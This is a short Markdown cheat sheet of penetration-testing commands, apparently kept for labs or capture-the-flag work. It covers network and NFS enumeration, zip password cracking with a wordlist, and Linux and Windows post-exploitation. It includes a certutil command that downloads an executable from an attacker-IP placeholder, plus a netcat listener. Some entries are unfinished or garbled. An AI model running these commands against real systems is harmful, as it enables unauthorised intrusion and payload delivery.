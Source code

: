 ## Enumeration 
arp-scan -l

showmount -e <server ip>

mount -t nfs <server ip>:<remote path shown from showmount> <to local mount point>

nmap -sV -A -T4 -p- 

nmap --sC ? 

gobuster ######

## Cracking
Zip files: fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt <target.zip>

## Linux Post Exploitation
history

pwd

sudo -l

crontab -l

**Linux wget and curl commands**

## Windows Post Exploitation
cd

whoami

ipconfig

dir

sc stop <application>

sc start <application>

sc query <application>

certutil.exe -urlcache -f http://<attackerip>:8000/<application.exe> <applicationname.exe>

## Listener
nc -nlvp

## Directory hosting
python -m SimpleHTTPServer






